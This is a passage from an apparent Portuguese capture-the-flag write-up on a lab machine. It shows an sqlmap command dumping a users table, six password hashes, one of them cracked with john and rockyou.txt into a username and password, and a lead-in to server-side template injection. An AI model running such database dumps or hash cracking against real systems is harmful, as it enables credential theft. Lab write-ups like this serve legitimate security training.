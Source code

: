 Após a enumeração de databases, tabelas e colunas, consegui pegar usuários e senhas (infelizmente criptografadas) na tabela "users_gwb". Aqui está o resultado:

```sql
# sqlmap --url="http://10.10.10.96/users/" -D ozdb -T users_gbw -C id,password,username --dump

Database: ozdb                                                                                                                     
Table: users_gbw
[6 entries]
+----+----------------------------------------------------------------------------------------+-------------+
| id | password                                                                               | username    |
+----+----------------------------------------------------------------------------------------+-------------+
| 1  | $pbkdf2-sha256$5000$aA3h3LvXOseYk3IupVQKgQ$ogPU/XoFb.nzdCGDulkW3AeDZPbK580zeTxJnG0EJ78 | dorthi      |
| 2  | $pbkdf2-sha256$5000$GgNACCFkDOE8B4AwZgzBuA$IXewCMHWhf7ktju5Sw.W.ZWMyHYAJ5mpvWialENXofk | tin.man     |
| 3  | $pbkdf2-sha256$5000$BCDkXKuVMgaAEMJ4z5mzdg$GNn4Ti/hUyMgoyI7GKGJWeqlZg28RIqSqspvKQq6LWY | wizard.oz   |
| 4  | $pbkdf2-sha256$5000$bU2JsVYqpbT2PqcUQmjN.Q$hO7DfQLTL6Nq2MeKei39Jn0ddmqly3uBxO/tbBuw4DY | coward.lyon |
| 5  | $pbkdf2-sha256$5000$Zax17l1Lac25V6oVwnjPWQ$oTYQQVsuSz9kmFggpAWB0yrKsMdPjvfob9NfBq4Wtkg | toto        |
| 6  | $pbkdf2-sha256$5000$d47xHsP4P6eUUgoh5BzjfA$jWgyYmxDK.slJYUTsv9V9xZ3WWwcl9EBOsz.bARwGBQ | admin       |
+----+----------------------------------------------------------------------------------------+-------------+
```

Quebrando-as com john e utilizando a rockyou.txt como wordlist, nós conseguimos quebrar a hash. Com isso, pegamos credenciais: wizard.oz:wizardofoz22

### Server Side Template Injection. 🐘

Após logarmos no serviço rodando na porta 8080, nos deparamos com a seguinte interface de criação e monitoramento de tickets:
